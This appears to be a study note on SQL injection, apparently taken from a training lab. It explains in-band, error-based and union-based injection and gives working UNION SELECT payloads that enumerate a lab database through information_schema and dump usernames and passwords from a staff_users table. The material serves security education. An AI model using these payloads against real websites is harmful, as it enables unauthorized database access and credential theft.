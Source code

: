 ## In-Band SQL Injection

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.


## Error-Based SQL Injection

This type of SQL Injection is the most useful for easily obtaining information about the database structure, as error messages from the database are printed directly to the browser screen. This can often be used to enumerate a whole database. 


## Union-Based SQL Injection
This type of Injection utilises the SQL UNION operator alongside a SELECT statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

## Practical
The key to discovering **error-based SQL Injection** is to break the code's SQL query by trying certain characters until an error message is produced; these are most commonly single apostrophes ( ' ) or a quotation mark ( " ).

Try typing an apostrophe ( ' ) after the id=1 and press enter. And you'll see this returns an SQL error informing you of an error in your syntax. The fact that you've received this error message confirms the existence of an SQL Injection vulnerability. We can now exploit this vulnerability and use the error messages to learn more about the database structure. 

The first thing we need to do is return data to the browser without displaying an error message. Firstly, we'll try the UNION operator so we can receive an extra result if we choose it. Try setting the mock browsers id parameter to:

`1 UNION SELECT 1`


This statement should produce an error message informing you that the UNION SELECT statement has a different number of columns than the original SELECT query. So let's try again but add another column:


`1 UNION SELECT 1,2`


Same error again, so let's repeat by adding another column:


`1 UNION SELECT 1,2,3`


Success, the error message has gone, and the article is being displayed, but now we want to display our data instead of the article. The article is displayed because it takes the first returned result somewhere in the website's code and shows that. To get around that, we need the first query to produce no results. This can simply be done by changing the article ID from 1 to 0.


`0 UNION SELECT 1,2,3`


You'll now see the article is just made up of the result from the UNION select, returning the column values 1, 2, and 3. We can start using these returned values to retrieve more useful information. First, we'll get the database name that we have access to:


`0 UNION SELECT 1,2,database()`


You'll now see where the number 3 was previously displayed; it now shows the name of the database, which is sqli_one.


Our next query will gather a list of tables that are in this database.


`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`


The method group_concat() gets the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. The next thing is the information_schema database; every user of the database has access to this, and it contains information about all the databases and tables the user has access to. In this particular query, we're interested in listing all the tables in the sqli_one database, which is article and staff_users. 


As the first level aims to discover Martin's password, the staff_users table is what interests us. We can utilise the information_schema database again to find the structure of this table using the below query.


`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`


This is similar to the previous SQL query. However, the information we want to retrieve has changed from table_name to column_name, the table we are querying in the information_schema database has changed from tables to columns, and we're searching for any rows where the table_name column has a value of staff_users.


The query results provide three columns for the staff_users table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.


`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`


Again, we use the group_concat method to return all of the rows into one string and make it easier to read. We've also added `,':',` to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML <br> tag that forces each result to be on a separate line to make for easier reading.

## SQL injection example
First, lists all databases accessible to the current user.

`0 UNION SELECT null, null, GROUP_CONCAT(schema_name) FROM information_schema.schemata;`

The page returned **information_schema,sqli_one**, let list all tables from sqli_one database

`0 UNION SELECT null, null, GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'sqli_one'`

The page return **article,staff_users**, now we keep finding the columns name with the payload:

`0 UNION SELECT null, null, GROUP_CONCAT(column_name) FROM information_schema.columns where table_schema = 'sqli_one'`

The page return **content,id,subject,id,password,username**, now we could get the username and password 

`0 UNION SELECT null, GROUP_CONCAT(username), GROUP_CONCAT(password) FROM staff_users`

The page return **admin,martin,jim** and **p4ssword,pa$$word,work123**

![alt text](image-20.png)
